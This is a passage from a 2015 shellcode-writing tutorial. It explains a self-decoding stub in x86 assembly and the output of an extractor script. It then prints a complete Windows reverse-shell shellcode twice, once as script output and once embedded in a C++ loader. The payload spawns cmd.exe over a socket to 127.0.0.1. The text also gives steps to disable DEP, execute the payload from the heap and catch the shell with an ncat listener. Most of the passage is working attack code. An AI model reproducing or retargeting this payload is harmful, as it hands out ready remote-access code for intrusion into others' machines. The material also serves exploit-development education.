# Can't assemble "LEA EBX, [EDI + (bytes-here)]" or "JMP skip_bytes".
return None
Let’s review the code in more detail:
JMP SHORT skip_bytes
bytes:
...
skip_bytes:
CALL $ + 4 ; PUSH "here"; JMP "here"-1
here:
(FF)C0 = INC EAX ; not important: just a NOP
POP EDI ; EDI = absolute address of "here"
MOV ECX, <xor value 1 for shellcode len>
XOR ECX, <xor value 2 for shellcode len> ; ECX = shellcode length
LEA EBX, [EDI + (bytes - here)] ; EBX = absolute address of "bytes"
ADD EDI, shellcode_begin - here ; EDI = absolute address of the shellcode
loop1:
MOV AL, 0FEh ; AL = 254
MUL AL, BYTE PTR [EBX+1] ; AX = 254 * current num_blocksX = num bytes
MOVZX EDX, AX ; EDX = num bytes of the current chunk
XOR ESI, ESI ; ESI = 0
CLD ; tells STOSB to go forwards
loop2:
MOV AL, BYTE PTR [EDI] ; AL = current byte of shellcode
CMP AL, BYTE PTR [EBX] ; is AL the missing byte for the current chunk?
CMOVE EAX, ESI ; if it is, then EAX = 0
STOSB ; replaces the current byte of the shellcode with AL
DEC ECX ; ECX -= 1
JE shellcode_begin ; if ECX == 0, then we're done!
DEC EDX ; EDX -= 1
JNE loop2 ; if EDX != 0, then we keep working on the current chunk
INC EBX ; EBX += 1 (moves to next pair...
INC EBX ; EBX += 1 ... missing_bytes, num_blocks)
JMP loop1 ; starts working on the next chunk
shellcode_begin:
Testing the script
This is the easy part! If we run the script without any arguments it says:
Shellcode Extractor by Massimiliano Tomassoli (2015) Usage: sce.py <exe file> <map file>
If you remember, we told the linker of VS 2013 to also produce a map file. Just call the script with the path to the exe file and the path to the map file. Here’s what we get for our reverse shell:
Shellcode Extractor by Massimiliano Tomassoli (2015) Extracting shellcode length from "mapfile"... shellcode length: 614 Extracting shellcode from "shellcode.exe" and analyzing relocations... Found 3 reference(s) to 3 string(s) in .rdata Strings: ws2_32.dll cmd.exe 127.0.0.1 Fixing the shellcode... final shellcode length: 715 char shellcode[] = "\xe8\xff\xff\xff\xff\xc0\x5f\xb9\xa8\x03\x01\x01\x81\xf1\x01\x01" "\x01\x01\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x05\x0f\x44\xc6\xaa" "\xe2\xf6\xe8\x05\x05\x05\x05\x5e\x8b\xfe\x81\xc6\x7b\x02\x05\x05" "\xb9\x03\x05\x05\x05\xfc\xad\x01\x3c\x07\xe2\xfa\x55\x8b\xec\x83" "\xe4\xf8\x81\xec\x24\x02\x05\x05\x53\x56\x57\xb9\x8d\x10\xb7\xf8" "\xe8\xa5\x01\x05\x05\x68\x87\x02\x05\x05\xff\xd0\xb9\x40\xd5\xdc" "\x2d\xe8\x94\x01\x05\x05\xb9\x6f\xf1\xd4\x9f\x8b\xf0\xe8\x88\x01" "\x05\x05\xb9\x82\xa1\x0d\xa5\x8b\xf8\xe8\x7c\x01\x05\x05\xb9\x70" "\xbe\x1c\x23\x89\x44\x24\x18\xe8\x6e\x01\x05\x05\xb9\xd1\xfe\x73" "\x1b\x89\x44\x24\x0c\xe8\x60\x01\x05\x05\xb9\xe2\xfa\x1b\x01\xe8" "\x56\x01\x05\x05\xb9\xc9\x53\x29\xdc\x89\x44\x24\x20\xe8\x48\x01" "\x05\x05\xb9\x6e\x85\x1c\x5c\x89\x44\x24\x1c\xe8\x3a\x01\x05\x05" "\xb9\xe0\x53\x31\x4b\x89\x44\x24\x24\xe8\x2c\x01\x05\x05\xb9\x98" "\x94\x8e\xca\x8b\xd8\xe8\x20\x01\x05\x05\x89\x44\x24\x10\x8d\x84" "\x24\xa0\x05\x05\x05\x50\x68\x02\x02\x05\x05\xff\xd6\x33\xc9\x85" "\xc0\x0f\x85\xd8\x05\x05\x05\x51\x51\x51\x6a\x06\x6a\x01\x6a\x02" "\x58\x50\xff\xd7\x8b\xf0\x33\xff\x83\xfe\xff\x0f\x84\xc0\x05\x05" "\x05\x8d\x44\x24\x14\x50\x57\x57\x68\x9a\x02\x05\x05\xff\x54\x24" "\x2c\x85\xc0\x0f\x85\xa8\x05\x05\x05\x6a\x02\x57\x57\x6a\x10\x8d" "\x44\x24\x58\x50\x8b\x44\x24\x28\xff\x70\x10\xff\x70\x18\xff\x54" "\x24\x40\x6a\x02\x58\x66\x89\x44\x24\x28\xb8\x05\x7b\x05\x05\x66" "\x89\x44\x24\x2a\x8d\x44\x24\x48\x50\xff\x54\x24\x24\x57\x57\x57" "\x57\x89\x44\x24\x3c\x8d\x44\x24\x38\x6a\x10\x50\x56\xff\x54\x24" "\x34\x85\xc0\x75\x5c\x6a\x44\x5f\x8b\xcf\x8d\x44\x24\x58\x33\xd2" "\x88\x10\x40\x49\x75\xfa\x8d\x44\x24\x38\x89\x7c\x24\x58\x50\x8d" "\x44\x24\x5c\xc7\x84\x24\x88\x05\x05\x05\x05\x01\x05\x05\x50\x52" "\x52\x52\x6a\x01\x52\x52\x68\x92\x02\x05\x05\x52\x89\xb4\x24\xc0" "\x05\x05\x05\x89\xb4\x24\xbc\x05\x05\x05\x89\xb4\x24\xb8\x05\x05" "\x05\xff\x54\x24\x34\x6a\xff\xff\x74\x24\x3c\xff\x54\x24\x18\x33" "\xff\x57\xff\xd3\x5f\x5e\x33\xc0\x5b\x8b\xe5\x5d\xc3\x33\xd2\xeb" "\x10\xc1\xca\x0d\x3c\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0" "\x41\x8a\x01\x84\xc0\x75\xea\x8b\xc2\xc3\x55\x8b\xec\x83\xec\x14" "\x53\x56\x57\x89\x4d\xf4\x64\xa1\x30\x05\x05\x05\x89\x45\xfc\x8b" "\x45\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8d\x47\xf8" "\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b\x5c\x30\x78" "\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x9e\xff\xff\xff\x8b" "\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0\x89\x45\xfc" "\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x7d\xff\xff\xff" "\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d\xf0\x40\x89" "\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\xa0\x33\xc0\x5f" "\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24\x8d\x04\x48" "\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04\x30\x03\xc6" "\xeb\xdd\x2f\x05\x05\x05\xf2\x05\x05\x05\x80\x01\x05\x05\x77\x73" "\x32\x5f\x33\x32\x2e\x64\x6c\x6c\x05\x63\x6d\x64\x2e\x65\x78\x65" "\x05\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x05";
The part about relocations is very important, because you can check if everything is OK. For example, we know that our reverse shell uses 3 strings and they were all correctly extracted from the .rdata section. We can see that the original shellcode was 614 bytes and the resulting shellcode (after handling relocations and null bytes) is 715 bytes.
Now we need to run the resulting shellcode in some way. The script gives us the shellcode in C/C++ format, so we just need to copy and paste it into a small C/C++ file. Here’s the complete source code:
#include <cstring>
#include <cassert>
// Important: Disable DEP!
// (Linker->Advanced->Data Execution Prevention = NO)
void main() {
char shellcode[] =
"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\xa8\x03\x01\x01\x81\xf1\x01\x01"
"\x01\x01\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x05\x0f\x44\xc6\xaa"
"\xe2\xf6\xe8\x05\x05\x05\x05\x5e\x8b\xfe\x81\xc6\x7b\x02\x05\x05"
"\xb9\x03\x05\x05\x05\xfc\xad\x01\x3c\x07\xe2\xfa\x55\x8b\xec\x83"
"\xe4\xf8\x81\xec\x24\x02\x05\x05\x53\x56\x57\xb9\x8d\x10\xb7\xf8"
"\xe8\xa5\x01\x05\x05\x68\x87\x02\x05\x05\xff\xd0\xb9\x40\xd5\xdc"
"\x2d\xe8\x94\x01\x05\x05\xb9\x6f\xf1\xd4\x9f\x8b\xf0\xe8\x88\x01"
"\x05\x05\xb9\x82\xa1\x0d\xa5\x8b\xf8\xe8\x7c\x01\x05\x05\xb9\x70"
"\xbe\x1c\x23\x89\x44\x24\x18\xe8\x6e\x01\x05\x05\xb9\xd1\xfe\x73"
"\x1b\x89\x44\x24\x0c\xe8\x60\x01\x05\x05\xb9\xe2\xfa\x1b\x01\xe8"
"\x56\x01\x05\x05\xb9\xc9\x53\x29\xdc\x89\x44\x24\x20\xe8\x48\x01"
"\x05\x05\xb9\x6e\x85\x1c\x5c\x89\x44\x24\x1c\xe8\x3a\x01\x05\x05"
"\xb9\xe0\x53\x31\x4b\x89\x44\x24\x24\xe8\x2c\x01\x05\x05\xb9\x98"
"\x94\x8e\xca\x8b\xd8\xe8\x20\x01\x05\x05\x89\x44\x24\x10\x8d\x84"
"\x24\xa0\x05\x05\x05\x50\x68\x02\x02\x05\x05\xff\xd6\x33\xc9\x85"
"\xc0\x0f\x85\xd8\x05\x05\x05\x51\x51\x51\x6a\x06\x6a\x01\x6a\x02"
"\x58\x50\xff\xd7\x8b\xf0\x33\xff\x83\xfe\xff\x0f\x84\xc0\x05\x05"
"\x05\x8d\x44\x24\x14\x50\x57\x57\x68\x9a\x02\x05\x05\xff\x54\x24"
"\x2c\x85\xc0\x0f\x85\xa8\x05\x05\x05\x6a\x02\x57\x57\x6a\x10\x8d"
"\x44\x24\x58\x50\x8b\x44\x24\x28\xff\x70\x10\xff\x70\x18\xff\x54"
"\x24\x40\x6a\x02\x58\x66\x89\x44\x24\x28\xb8\x05\x7b\x05\x05\x66"
"\x89\x44\x24\x2a\x8d\x44\x24\x48\x50\xff\x54\x24\x24\x57\x57\x57"
"\x57\x89\x44\x24\x3c\x8d\x44\x24\x38\x6a\x10\x50\x56\xff\x54\x24"
"\x34\x85\xc0\x75\x5c\x6a\x44\x5f\x8b\xcf\x8d\x44\x24\x58\x33\xd2"
"\x88\x10\x40\x49\x75\xfa\x8d\x44\x24\x38\x89\x7c\x24\x58\x50\x8d"
"\x44\x24\x5c\xc7\x84\x24\x88\x05\x05\x05\x05\x01\x05\x05\x50\x52"
"\x52\x52\x6a\x01\x52\x52\x68\x92\x02\x05\x05\x52\x89\xb4\x24\xc0"
"\x05\x05\x05\x89\xb4\x24\xbc\x05\x05\x05\x89\xb4\x24\xb8\x05\x05"
"\x05\xff\x54\x24\x34\x6a\xff\xff\x74\x24\x3c\xff\x54\x24\x18\x33"
"\xff\x57\xff\xd3\x5f\x5e\x33\xc0\x5b\x8b\xe5\x5d\xc3\x33\xd2\xeb"
"\x10\xc1\xca\x0d\x3c\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0"
"\x41\x8a\x01\x84\xc0\x75\xea\x8b\xc2\xc3\x55\x8b\xec\x83\xec\x14"
"\x53\x56\x57\x89\x4d\xf4\x64\xa1\x30\x05\x05\x05\x89\x45\xfc\x8b"
"\x45\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8d\x47\xf8"
"\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b\x5c\x30\x78"
"\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x9e\xff\xff\xff\x8b"
"\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0\x89\x45\xfc"
"\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x7d\xff\xff\xff"
"\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d\xf0\x40\x89"
"\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\xa0\x33\xc0\x5f"
"\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24\x8d\x04\x48"
"\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04\x30\x03\xc6"
"\xeb\xdd\x2f\x05\x05\x05\xf2\x05\x05\x05\x80\x01\x05\x05\x77\x73"
"\x32\x5f\x33\x32\x2e\x64\x6c\x6c\x05\x63\x6d\x64\x2e\x65\x78\x65"
"\x05\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x05";
static_assert(sizeof(shellcode) > 4, "Use 'char shellcode[] = ...' (not 'char *shellcode = ...')");
// We copy the shellcode to the heap so that it's in writeable memory and can modify itself.
char *ptr = new char[sizeof(shellcode)];
memcpy(ptr, shellcode, sizeof(shellcode));
((void(*)())ptr)();
}
To make this code work, you need to disable DEP (Data Execution Prevention) by going to Project→<solution name> Properties and then, under Configuration Properties, Linker and Advanced, set Data Execution Prevention (DEP) to No (/NXCOMPAT:NO). This is needed because our shellcode will be executed from the heap which wouldn’t be executable with DEP activated.
static_assert was introduced with C++11 (so VS 2013 CTP is required) and here is used to check that you use
char shellcode[] = "..."
instead of
char *shellcode = "..."
In the first case, sizeof(shellcode) is the effective length of the shellcode and the shellcode is copied onto the stack. In the second case, sizeof(shellcode) is just the size of the pointer (i.e. 4) and the pointer points to the shellcode in the .rdata section.
To test the shellcode, just open a cmd shell and enter
ncat -lvp 123
Then, run the shellcode and see if it works.